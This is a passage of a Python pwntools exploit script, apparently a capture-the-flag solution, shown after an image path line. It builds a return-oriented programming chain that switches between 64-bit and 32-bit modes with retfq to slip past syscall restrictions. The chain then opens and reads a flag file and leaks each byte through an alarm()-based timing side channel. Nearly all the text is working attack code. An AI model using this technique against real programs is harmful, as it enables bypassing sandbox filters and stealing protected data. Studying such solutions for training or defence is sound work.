 ```python
            poprbp_ret, fake_rbp, 
            leave2, 
        arch='amd64')

    stack = flat(ptr, arch='amd64')
    flag_str =  b'./test\x00'.ljust(0x40, b'\x00') 
    to32 = flat(0, 
            retfq, ret, 0x23, 
        arch='amd64') 

    rop32 =  flat(
            # open(flag, 0, 0)
            # eax=5, ebx=flag, ecx=0, edx=0, 
            poprax, 5, 
            poprbx_popr14_2, buf, 1, 2, 3, 
            poprcx, 0, 
            int80, 
            retfq, ret, 0x33, 
        arch='i386') 

    rop64 = flat(
            # read(3, flag, 0x40)
            poprdi_poprbp, 3, 0, 
            poprsi_2, buf, 0, 0, 
            popr12_popr14_2, 0x40, poprbp_ret, 0, 0, 
            movrdx_callr14, 
            poprax, 0, 
            syscall_ret, 

            # alarm([flag+idx])

            # rax = idx
            poprax, idx, 
            # rsi = flag 
            # r14 = alarm
            # rbx = 0
            poprbx_popr14_2, 0, alarm, 0, 0, 
            # [flag+idx]
            movrdi, 
            loop, 
        arch='amd64')

    rop = stack + flag_str  + to32 + rop32 + rop64

    # gdb.attach(cn, cmd)
    cn.send(payload)
    start = time.time()
    cn.sendline(rop)
    # cn.interactive()
    try:
        cn.recv()
    except:
        ...
    end = time.time()
    cn.close()
    pass_time = int(end-start)
    print(hex(pass_time))
    flag[idx] = pass_time
    print(bytes(flag))

pool = []
flag = [0]*33
for i in range(33):
```